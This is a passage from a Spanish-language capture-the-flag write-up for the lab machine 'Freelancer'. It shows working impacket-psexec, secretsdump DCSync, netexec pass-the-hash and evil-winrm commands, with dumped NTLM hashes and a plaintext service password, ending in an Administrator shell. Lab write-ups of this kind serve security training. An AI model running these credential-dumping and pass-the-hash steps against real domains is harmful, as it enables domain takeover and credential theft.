Ahora exportamos la variable de entorno `KRB5CCNAME` para poder utilizar este ticket TGT.
```shell
$ export KRB5CCNAME=$(pwd)/Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/freelancer/content]
└──╼ [★]$ echo $KRB5CCNAME
/home/pointedsec/Desktop/freelancer/content/Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache
```

Y ahora podemos hacer Pass The Ticket con `psexec` para conseguir una consola como `Administrator` 

```shell
$ impacket-psexec freelancer.htb/Administrator@dc.freelancer.htb -k -no-pass
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on dc.freelancer.htb.....
[*] Found writable share ADMIN$
[*] Uploading file gCTHyGif.exe
[*] Opening SVCManager on dc.freelancer.htb.....
[*] Creating service Awdj on dc.freelancer.htb.....
[*] Starting service Awdj.....
```

Por alguna razón no termina de salir bien el proceso para conseguir la consola, así que vamos a efectuar un DCSync para con `impacket-secretsdump` conseguir el hash lm:nt del NTDS.dit de `Administrator` y hacer Pass The Hash
```shell
$ impacket-secretsdump 'freelancer.htb/Administrator@dc.freelancer.htb' -k -no-pass
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x9db1404806f026092ec95ba23ead445b
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:680c12d4ef693a3ae0fcd442c3b5874a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
FREELANCER\DC$:plain_password_hex:1f36a3b5a23441f6054f56f97d29c3312ca75d6d7450912ea81648778b5e540c6f38ab1335f9b27f4c69646359f12f2358d272bc0de36d5a9073b2358f68f1873425130a4b88bd750a55f018f1a83d1108691f4757b92f3f1242147e656fe2e1c38e312d5f26f6d9377cb01a53c38d689a48f4c1fcb5320d06fd6c3184810ba49ec8197a0b14f8e9a06f7a83e68437412e57cfa5bc2aa78a782412c509c139cf2cd85efea4b1ea5cafbb1146bc3eb5431eda9feae2854e25c4d1f357d6dc2844c2b7b86325bdca5985873644bd0b3de57996d8e442cd5996e2206072b8e7e90c621bd4f4f67f52be774a578c2d515d31
FREELANCER\DC$:aad3b435b51404eeaad3b435b51404ee:89851d57d9c8cc8addb66c59b83a4379:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xe20295f92e7e0bff2615bed48f0a0be7067e28f2
dpapi_userkey:0xbc3e1b600d881e1867b0bdfe6ec833e9743c07d7
[*] NL$KM 
 0000   D9 0B 60 A4 72 C3 B6 08  E4 F1 FF 54 62 91 65 66   ..`.r......Tb.ef
 0010   DE EE 19 17 58 31 12 CB  DF 25 18 D0 36 B0 C1 F4   ....X1...%..6...
 0020   1B 96 C3 5F 22 73 F0 D6  B9 81 2F 26 BA 69 6A FD   ..._"s..../&.ij.
 0030   7F C7 0B 87 71 BE D5 F5  8A 74 B4 3A BD AF DB 71   ....q....t.:...q
NL$KM:d90b60a472c3b608e4f1ff5462916566deee1917583112cbdf2518d036b0c1f41b96c35f2273f0d6b9812f26ba696afd7fc70b8771bed5f58a74b43abdafdb71
[*] _SC_MSSQL$SQLEXPRESS 
FREELANCER\sql_svc:v3ryS0l!dP@sswd#34
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0039318f1e8274633445bce32ad1a290:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d238e0bfa17d575038efc070187a91c2:::
freelancer.htb\mikasaAckerman:1105:aad3b435b51404eeaad3b435b51404ee:e8d62c7d57e5d74267ab6feb2f662674:::
sshd:1108:aad3b435b51404eeaad3b435b51404ee:c1e83616271e8e17d69391bdcd335ab4:::
SQLBackupOperator:1112:aad3b435b51404eeaad3b435b51404ee:c4b746db703d1af5575b5c3d69f57bab:::
sql_svc:1114:aad3b435b51404eeaad3b435b51404ee:af7b9d0557964265115d018b5cff6f8a:::
lorra199:1116:aad3b435b51404eeaad3b435b51404ee:67d4ae78a155aab3d4aa602da518c051:::
freelancer.htb\maya.artmes:1124:aad3b435b51404eeaad3b435b51404ee:22db50a324b9a34ea898a290c1284e25:::
freelancer.htb\michael.williams:1126:aad3b435b51404eeaad3b435b51404ee:af7b9d0557964265115d018b5cff6f8a:::
freelancer.htb\sdavis:1127:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\d.jones:1128:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\jen.brown:1129:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\taylor:1130:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\jmartinez:1131:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\olivia.garcia:1133:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\dthomas:1134:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
....
```

Tenemos que quedarnos con el hash NT del NTDS.dit que corresponde al dominio, ya que la SAM corresponde a la cuenta local del sistema.
```
Administrator:0039318f1e8274633445bce32ad1a290
```

Ahora con `netexec` podemos confirmar que este hash es válido para hacer PTH.
```shell
$ nxc smb freelancer.htb -u 'Administrator' -H '0039318f1e8274633445bce32ad1a290'
SMB         10.129.230.3    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.3    445    DC               [+] freelancer.htb\Administrator:0039318f1e8274633445bce32ad1a290 (Pwn3d!)
```

Sigue sin darme la consola con `psexec`
```shell
$ impacket-psexec -hashes ':0039318f1e8274633445bce32ad1a290' Administrator@10.129.230.3
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.230.3.....
[*] Found writable share ADMIN$
[*] Uploading file IsscEUer.exe
[*] Opening SVCManager on 10.129.230.3.....
[*] Creating service whwo on 10.129.230.3.....
[*] Starting service whwo.....
```

Pero ahora teniendo el hash podemos conectarnos via WinRM
```shell
$ evil-winrm -i 10.129.230.3 -u Administrator -H '0039318f1e8274633445bce32ad1a290'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
freelancer\administrator
```

Y ya podríamos visualizar la flag de root.

```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         8/5/2024   6:11 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
e68eceea24d49627cc...
```

¡Y ya estaría!

Happy Hacking! 🚀